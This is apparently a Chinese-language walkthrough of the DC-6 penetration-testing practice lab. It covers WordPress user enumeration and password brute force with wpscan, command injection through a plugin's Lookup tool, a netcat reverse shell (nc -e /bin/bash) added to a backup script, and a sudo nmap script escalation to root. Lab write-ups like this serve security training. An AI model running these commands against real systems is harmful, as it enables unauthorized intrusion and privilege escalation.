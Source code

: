 ```yaml
---
title: DC6
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-17T21:23:18+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l
==>
192.168.121.150
```

扫描目标端口![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\nmap.png)

访问80端口看看有什么功能，又遇到了IP和域名问题，修改一下host文件即可解决,过于明显的特征，很显然是一个wordpress网站，利用具有针对性的工具进行扫描，先使用wpscan简单探测一下![wpsan-1](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\wpsan-1.png)

可以看到wordpress的版本为5.1.1,既然是wordpress，后台就应该存在登录界面，这里同样是一个没有验证码的登录框/wp-login.php

以防万一我们还是先跑个目录，防止有别的信息泄露什么的，除了一个includes就没别的有用信息了，效仿上一次wordpress的攻击，

我们先采取密码爆破的形式，先扫描谁注册了该站点

```
wpscan --url http://wordy/ -e
```

能够得到以下用户名

![useranme](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\useranme.png)

用这些用户名制作一个字典，先试试cewl爬取的字典能不能成功

```
wpscan --url http://wordy/login.php --usernames username.txt --passwords password.txt
```

结果并不理想，失败了，换成使用rockyou,字典要跑完需要花很长的时间，这里采用取巧一点的办法，直接看WP出来的密码，也是利用w上述方法进行爆破，这里就不等了

```
mark ==> helpdesk01
```

我这里没有直接登录，尝试一下这个账号能不能直接连ssh,连接失败了就登陆看看后台，后台没有什么可用信息，但是有一个Tools界面是空白的，这显然不太寻常，查看一圈，发现tools的利用点是在activity页面，抓包看看利用逻辑，有一个Lookup工具，或许可以用这个拿到反向shell![yools](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\yools.png)

逻辑很简单，将lookup和ip拼接在一起执行命令，我们可以用过||的形式拼接执行第二条命令，反弹一个shell,接着用python起交互

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![shell1](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\shell1.png)

使用sudo命令需要密码，查一下有没有可以以root权限执行的命令，mount只能使用sudo提权，查看一下系统信息

uname -a 

```
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
```

内核版本为4.9.0-8-amd64，在home目录下找到用户文件夹，经过翻找在mark的目录下找到了graham的密码

```
GSo7isUM1D4
```

ssh连接一下，可以成功连接

backups.sh的脚本是解压这个backups的压缩包到/var/www/html下，当前目录下没有，应该是要执行这个脚本生成后门

sudo -l查看当前用户能执行的脚本，发现是能无密码执行该脚本的，在执行过程中tar命令出现问题，看了看wp，原来可以利用jens用户来执行该脚本反弹jens的shell,在脚本中添加

```
nc -e /bin/bash 192.168.121.135 4444 
然后执行
sudo -u jens ./backups.sh
```

监听即可拿到shell

![jens](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\jens.png)

再用python起交互式，再次寻找能利用的提权点

```
sudo -l
```

这次能够无密码利用nmap,那就使用nmap进行提权,先查看一下nmap版本为7.4,根据版本选择提权命令

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

执行上述三条命令，即可获得rootshell

![rootshell](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\rootshell.png)

最后进root目录拿flag即可

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC6图库\flag.png)

## 总结：

靶机基于wordpress，前期工作还算比较顺利，但是拿到第一个用户的shell之后就想着直接提权，这样不一定可取，还是得先去收集靶机上的信息，特别是在后后门的情况下，并且能够利用的点要筛查完，每个用户对应着什么权限都应该拿出来看看
